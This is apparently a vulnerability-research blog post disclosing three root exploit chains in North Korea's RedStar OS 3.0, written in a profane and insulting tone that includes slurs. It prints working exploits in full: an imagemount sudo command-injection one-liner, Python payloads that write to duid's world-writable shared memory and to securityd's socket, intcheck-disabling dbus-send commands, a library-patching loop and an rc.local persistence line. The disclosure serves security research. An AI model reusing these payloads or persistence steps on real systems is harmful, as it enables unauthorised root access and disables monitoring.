







Three Zero Days in North Korea's OS
Total system compromise of RedStar OS from an unprivileged context that probably persist to this day.
RedStar OS 3.0 is North Korea's surveillance operating system, shipped on government-issued machines to monitor citizens, and I sent Uncle Sam to shit on it. Three independently exploitable total compromise exploit chains give any unprivileged desktop user a persistent root shell with all surveillance permanently disabled.
So WTF is RedStar OS?
RedStar OS 3.0 is Kim Jong Un's RETARDED ASS idea of a secure operating system. Built on a Fedora/RHEL base with kernel 2.6.38.8-24, i386, GCC 4.4.0. It ships with a knockoff macOS UI, Korean localization, and a surveillance stack designed to monitor every citizen unlucky enough to sit in front of it: real-time file integrity monitoring via intcheck, content watermarking, USB tracking, and a "locked-down" (lol) user environment. Government-provisioned installs are supposed to be hardened. Compiling and executing arbitrary code is supposed to be impossible without a working exploit chain.
Prior research by Hacker House in 2016 and 32C3 in 2015 scratched the surface, but the DPRK-custom binaries at the heart of these chains have never been publicly torn apart: imagemount, securityd, duid, libImgSecurity.so, libduiengine.so. No CVEs have ever been assigned for any Red Star OS vulnerability because nobody bothered. This is suprising, because this may have been the easiest set of vulnerablities I have ever fucking found lol.
The Sudoers Problem
RedStar grants every user on the system passwordless root execution of seven DPRK-custom binaries. Just hands it to them. This wouldn't be an issue assuming these tools were written securely, SUID binaries are usually no big deal, of course, but this single line in /etc/sudoers is the foundation of the first chain and tells you everything about the engineering talent the regime has on "payroll":
root ALL=(ALL) ALL ALL ALL=NOPASSWD: /Applications/swmng.app/Contents/RedStar/swmng ALL ALL=NOPASSWD: /usr/bin/imagemount ALL ALL=NOPASSWD: /usr/bin/cdrecord ALL ALL=NOPASSWD: /usr/bin/mkisofs ALL ALL=NOPASSWD: /usr/bin/scnprc ALL ALL=NOPASSWD: /usr/bin/opprc ALL ALL=NOPASSWD: /usr/bin/rssidebardaemon
ALL ALL=NOPASSWD: means any user, on any host, may run the command as root without entering a password. scnprc and opprc are surveillance tools that auto-start at login to snitch like a bitch on the user. The DPRK developers slapped the same privilege pattern on imagemount, a disk image mounter, without spending five minutes thinking about what happens when you give every user passwordless root access to a binary that pipes input to a shell. ngl the human side of me assumes they probably realized how bad of an idea this was afterwards, but if they said anything, they'd be shot by firing squad or whatever they do there.

imagemount: Two Commands to Root
The Components
/usr/bin/imagemount parses command-line arguments into a 520-byte IPC buffer containing the operation, filename, and directory, then sends it to securityd. The authorization framework looks up redstar.app.imagemount in /etc/authorization and loads libImgSecurity.so as a plugin.
The Buffer
// alloc IPC buffer @ 520 bytes v6 = (char *)malloc(0x208u); // pack arguments with no validation lol strcpy(v6, v3[1]); // offset 0: operation m or u strcpy(v7 + 8, v3[2]); // offset 8: filename if (v8 && (v9 = v3[4]) != 0 && !strcmp(v8, "-d")) strcpy(v7 + 264, v9); // offset 264: directory, and we control this // send to auth svcs AuthorizationCopyRights();
The Injection
libImgSecurity.so is 184 bytes of meaningful code. The entire security plugin for root-level disk operations is smaller than this paragraph. It builds a shell command from the IPC buffer and fires it into popen(). The filename gets double-quoted and the directory does not lol musta been hungry.
bool __cdecl sub_580(int a1, int a2) { char s[1024]; result = a2 == 520 && (sprintf(s, "/usr/bin/imgmountapp %s \"%s\" %s", a1, a1 + 8, a1 + 264), (v3 = popen(s, "r")) != 0) && ...; }
| Specifier | Source | Quoted? | Injectable? |
|---|---|---|---|
%s #1 | operation | No | No, fixed "m"/"u" |
"%s" #2 | filename | Yes | Partially, via $() |
%s #3 | directory | No | Yes, direct injection |
argv[4] flows through strcpy into the IPC buffer, through the authorization framework, into an unquoted sprintf field, and directly into popen() executing as root. Zero sanitization at any point.
The Exploit
sudo imagemount m x.iso -d '; cp /bin/bash /tmp/rsh; chmod 4755 /tmp/rsh'
$ /tmp/rsh -p
rsh-3.2# whoami
root
Sudoers grants NOPASSWD. The authorization check passes because PAM timestamp reuses the sudo session's cached credentials. popen() splits on semicolons and executes each command as root.


duid: Root via Shared Memory
The Architecture
RedStar ships a root daemon called duid that manages disk image operations. Starts at boot via /etc/rc.d/init.d/duid.init, runs as root, never drops privileges, and talks to its GUI frontend through SystemV shared memory created with permissions 0666. Any process on the system can attach and shove commands into it. The DPRK developers literally gave every user on the box a direct line to a root daemon's command queue.
// create shared memory of key, size, flags shmid = shmget(2009081710, 1556, 950); sm = shmat(shmid, 0, 0); stuff[0] = 2; // status is idle while (1) { if (stuff[0] == 0) { // client sets to 0 to trigger switch (stuff[1]) { case 0x3EA: // mount vdi is the exploitation target sub_8049830((char*)(stuff+20), stuff[3]); break; } stuff[0] = 2; // done, back to idle } usleep(100000); }
key shmid owner perms bytes nattch status
0x77c0276e 0 root 666 1556 1

The Injection
Command 0x3EA flows through three functions to setLoopMountImage in libduiengine.so, which builds a mount command via asprintf(). The file path is double-quoted, but a " character in the path breaks the quoting:
asprintf(&command, "mount %s \"%s\" \"%s\" -o loop=%s,offset=%lu", v18, file, v19, ptr, a4); v12 = execute(command, a7); // popen() as root lol
Attacker sends path /tmp/x"$(cp /bin/sh /tmp/rsh;chmod 4755 /tmp/rsh)"y. The shell sees the quote breakout and evaluates the $() substitution as root. The mount command itself fails, but the payload has already executed.
The Exploit
import ctypes, struct, time, os libc = ctypes.CDLL("libc.so.6") libc.shmat.restype = ctypes.c_void_p shmid = libc.shmget(2009081710, 1556, 0) buf = libc.shmat(shmid, None, 0) path = '/tmp/x"$(cp /bin/sh /tmp/rsh;chmod 4755 /tmp/rsh)"y' ctypes.memmove(buf + 20, path, len(path) + 1) # file path ctypes.memmove(buf + 4, struct.pack("<I", 0x3EA), 4) # command to mount VDI ctypes.memmove(buf + 12, struct.pack("<I", 1), 4) # skip validation ctypes.memmove(buf + 0, struct.pack("<I", 0), 4) # trigger time.sleep(2) print "@/tmp/rsh -p"
$ python /tmp/du.py attached shmid 0 at 0xb7700000 payload sent, waiting we made it $ /tmp/rsh -p sh-3.2# whoami root
Just 15 lines of Python to get root lol how fucking retarded.


securityd: Root via Authorization Socket
The Architecture
securityd is forked from Apple's macOS Authorization Services framework. The DPRK stole Apple's code, ripped out the security checks, and left a root daemon that creates a Unix domain socket at /var/run/smctl/socket with chmod(path, 0x1B6) = 0666 and accepts connections from literally anyone on the system. The ExecuteWithPrivileges handler, command 0x200, parses a binary TLV message for an executable path, fork()'s, and calls execv() on that path as root. No auth.
$ ls -la /var/run/smctl/socket
srw-rw-rw- 1 root root 0 ... /var/run/smctl/socket
The Protocol
off sz field val
------ ------ --------------- ---------------------------------
0 4 B Magic 0xB007XXYY cmd type
0x0100 = CopyRights
0x0200 = ExecuteWithPrivileges
0x0300 = ConfirmCredential
4 4 B Tag 0xE8EC0000 = EXEC path
0xA4650000 = ARGS list
0xDEAD0000 = END marker
8 4 B String length Including null terminator
12 N B String data Null-terminated
The Dispatch
result = fork(); if (!result) { // child process (root) switch (v4) { case 512: // ExecuteWithPrivileges sub_804EE6A(...); // parse EXEC/ARGS/ENV tags close(fd); if (*((_DWORD *)s + 3)) // proc_t[3] = exec path execv(*((const char **)s + 3), *((char *const **)s + 2)); // argv break; } _exit(0); }
The argv Bug & Bypass
The argument parser allocates malloc(4*argc). Exactly enough room for the pointers, but no trailing NULL. When execve() scans past the last pointer, it reads heap metadata and returns EFAULT. Every attempt to use ExecuteWithPrivileges with arguments fails.
The bypass: don't send arguments. proc_t is zero-filled by memset. If the ARGS tag is never sent, argv stays NULL. execv(path, NULL) is legal on Linux. For shebang scripts, the kernel constructs argv from the #! line automatically.
The Client Library is Broken
The official client library libsmctl.so sends 0x00000000 for all TLV tags. The server expects distinct values: 0xE8EC0000 for EXEC, 0xDEAD0000 for END. This feature has literally never fucking worked. Not a single successful call through the official API in the history of this operating system. Nobody on the DPRK dev team ever tested it, which is why nobody ever noticed there's zero authentication on a function called ExecuteWithPrivileges but they probably got executed still.
SELinux: Not a Barrier
RedStar runs SELinux in Enforcing mode, which sounds impressive until you check securityd's context: "-". They turned on SELinux and then exempted the most privileged daemon on the system.
The Exploit
import socket, struct, os, time # create payload script f = open('/tmp/.sd01.sh', 'w') f.write('#!/bin/bash\n') f.write('cp /bin/bash /tmp/sd01_rootsh\n') f.write('chmod 4755 /tmp/sd01_rootsh\n') f.close() os.chmod('/tmp/.sd01.sh', 0755) # build message is EXEC,END only w/ no args def pack_dword(v): return struct.pack('<I', v) def pack_string(s): d = s + '\x00' return pack_dword(len(d)) + d msg = pack_dword(0xB0070200) # magic is ExecuteWithPrivileges msg += pack_dword(0xE8EC0000) # tag is EXEC msg += pack_string('/tmp/.sd01.sh') # exec path msg += pack_dword(0xDEAD0000) # tag is END w/ no args s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM) s.connect('/var/run/smctl/socket') s.sendall(msg) s.close()
$ python /tmp/sd01.py uid=0(root) gid=0(root) Run: /tmp/sd01_rootsh -p $ /tmp/sd01_rootsh -p bash-3.2# whoami root
The daemon's intended behavior is to run arbitrary executables as root. The vulnerability is that it does exactly what it was designed to do, for anyone who asks, because the DPRK forgot to add the part where you check who's asking.

Killing the Watchdog
All three chains share the same steps: disabling intcheck, the regime's pride and joy, the real-time integrity monitoring daemon that's supposed to catch you tampering with the system. It exposes a D-Bus interface with zero authentication. The policy file uses <policy context="default"> with no sender restrictions. Any user can just turn it off:
dbus-send --system --dest=system.service.intcheck \ /system/service/intcheck \ system.service.intcheck.EnableRTScan boolean:false dbus-send --system --dest=system.service.intcheck \ /system/service/intcheck \ system.service.intcheck.SetCheckingAtBoot boolean:false
After getting root, the entire surveillance apparatus can be permanently gutted. And here's the best part: intcheck's hashing function at 0x804cfb3 reads files in 4096-byte chunks but always passes a hardcoded 4096 to g_checksum_update. It only hashes the first 4096 bytes of any file, literally defeating the entire purpose of hashing LMAOOO. The integrity checker that's supposed to protect the regime's spyware doesn't even read the whole file. Patch anything after byte 4096 and intcheck will happily report the file as untouched.
# fuck surveillance libraries beyond the 4096 byte boundary for lib in /usr/lib/libsmctl.so /usr/lib/libdbman.so /usr/lib/libigl.so; do python -c " f = open('$lib', 'r+b') f.seek(4097) f.write('\xc3') # x86 RET f.close() " done # persist across reboots echo '/tmp/rsh -c "cp /bin/bash /tmp/rsh; chmod 4755 /tmp/rsh"' >> /etc/rc.local
Three Chains, One Root
Three independently exploitable paths from an unprivileged desktop user to persistent root with all surveillance disabled:
| imagemount | duid | securityd | |
|---|---|---|---|
| Entry | sudo NOPASSWD | World-writable SysV shm | World-writable Unix socket |
| Auth bypass | allow-root and PAM | None needed | None needed |
| Vuln class | Command injection | Command injection | Direct execv() |
| Injection site | sprintf to popen | asprintf to popen | N/A |
| Requires sudo | Yes | No | No |
| Requires Python | No, pure shell | Yes, shmget/shmat | Yes, socket |
| SELinux | Not evaluated | Not evaluated | None, unconfined |
| Exploit size | 1 command | 15 lines | 20 lines |
The pattern across all three is the same: the DPRK developers build shell commands by string formatting and pass them to system() or popen(). When they remember to quote paths, they don't escape the quote character. Root daemons sit on world-writable IPC channels with no authentication, waiting for anyone to tell them what to do. The authorization framework they stole from macOS is half-implemented, and ExecuteWithPrivileges does exactly what the name says for anyone who connects. This is the operating system a nuclear-armed dictatorship built to keep its people under control. What a fucking joke lol.
Closing Remarks
Kim Jong Un starves his own population, runs forced labor camps, and threatens the civilized world with nuclear weapons. He spent what little his hermit kingdom has left on a surveillance operating system to monitor the people he keeps in chains. And his engineers couldn't even get that right. sprintf into popen. World-writable root sockets. A daemon that runs execv() on whatever the fuck you send it. This is the best the DPRK's entire technical apparatus could produce.
Every one of these bugs is freshman-year material. The regime pours resources into looking dangerous while shipping code that wouldn't pass a junior dev's pull request. The authorization framework has no authorization. The security daemon is the vulnerability itself. The integrity checker only reads the first 4KB of a file. Nobody in the room is allowed to tell the Dear Leader his shit doesn't work, because they'd get their fucking head blown off, so it ships broken and stays broken.
Fuck the DPRK. Fuck their surveillance state. And fuck Kim Jong Un.